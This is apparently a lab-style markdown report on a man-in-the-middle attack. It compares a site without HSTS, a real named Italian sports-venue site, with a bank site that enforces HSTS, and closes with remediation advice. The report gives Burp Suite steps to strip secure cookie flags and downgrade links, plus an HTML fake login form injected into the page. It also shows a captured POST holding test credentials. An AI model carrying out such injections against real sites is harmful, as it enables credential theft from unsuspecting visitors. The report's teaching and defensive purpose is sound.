

# MiTM Vulnerability Report

This report describes a simulated Man-in-the-Middle (MiTM) attack and compares a positive execution against a negative execution using HSTS.

## Tools

- Burp Suite
- curl

## 1. Positive Execution (Non-HSTS Target)

**Description:** Find a website that does not use HSTS and attempt to intercept traffic between the victim and the website.

### Preliminary Steps

1. Identify a target website: <https://www.piscinadisangiovanni.com/>

### Discovery

1. Use `curl` to check if the website redirects HTTP requests to HTTPS.
2. In the same command, verify whether HSTS is present.

```bash
curl -I http://www.piscinadisangiovanni.com/
```

Result:

```text
HTTP/1.1 301 Moved Permanently
Date: Fri, 19 Jun 2026 15:35:00 GMT
Server: Apache
Location: https://www.piscinadisangiovanni.com/
Cache-Control: max-age=172800
Expires: Sun, 21 Jun 2026 15:35:00 GMT
Content-Type: text/html; charset=iso-8859-1
```

> The site redirects to HTTPS, but it does not send an HSTS header. This makes it vulnerable to a MiTM attack if the attacker can intercept the connection.

### Exploitation

1. Configure Burp Suite to intercept HTTPS traffic.
2. Enable "Remove secure flags from cookies." 
3. Enable "Convert HTTPS links to HTTP." 
4. In Burp Proxy, add a Match and Replace rule:
   - Type: Response body
   - Match: `Una struttura polivalente e perfetta per fare sport!`
   - Replace:

```html
<form action="#" method="post">
  <div class="form-group">
    <label for="exampleInputEmail1">Email address</label>
    <input type="email" class="form-control" id="exampleInputEmail1" aria-describedby="emailHelp" name="uname">
    <small id="emailHelp" class="form-text text-muted">Non condivideremo le tue credenziali con altri.</small>
  </div>
  <div class="form-group">
    <label for="exampleInputPassword1">Password</label>
    <input type="password" class="form-control" id="exampleInputPassword1" name="psw">
  </div>
  <div class="form-group form-check">
    <input type="checkbox" class="form-check-input" id="exampleCheck1">
    <label class="form-check-label" for="exampleCheck1">Check me out</label>
  </div>
  <button type="submit" class="btn btn-primary">Submit</button>
</form>
```

5. From the attacker's point of view, the response is modified and the victim sees a fake login form.

6. Example interception screenshot:


7. If the victim submits the form, the credentials are captured in Burp Proxy.

8. Example request captured by the proxy:

```http
POST / HTTP/1.1
Host: www.piscinadisangiovanni.com
Content-Length: 37
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://www.piscinadisangiovanni.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.piscinadisangiovanni.com/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

uname=test%40gmail.com&psw=securesite
```

> Observation: This method allows interception of credentials and sensitive data when the site does not use HSTS.

## 2. Negative Execution (HSTS Target)

**Description:** Attempt the MiTM attack on a website that enforces HSTS.

### Preliminary Steps

1. Burp Suite
2. curl

### Discovery

1. Use `curl` to check if the website sends an HSTS header.

```bash
curl -I https://www.credem.it/
```

Result:

```text
HTTP/2 200
date: Fri, 19 Jun 2026 15:45:29 GMT
vary: Host,Accept-Encoding
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
strict-transport-security: max-age=31536000; includeSubDomains; preload
```

> This site uses HSTS, which prevents HTTP downgrade attacks on clients that have previously visited the site.

### Exploitation

- If the attacker intercepts traffic before the victim's first visit, the victim may still connect over HTTP.


- If the victim has already visited the site, the browser will force HTTPS and detect the attacker's certificate instead of the site certificate. Because the attacker's CA is not trusted, the browser displays a warning.



## 3. Remediation

- Enable HTTPS across the entire site.
- Configure and maintain a valid certificate chain from a trusted CA.
- Use HSTS with `includeSubDomains` and `preload` to protect returning visitors.

## 4. Attacker Notes

- To bypass HSTS, an attacker would need to install a malicious CA certificate on the victim's browser or device.
- This is a strong defense mechanism, but not an absolute guarantee if the client environment is compromised.
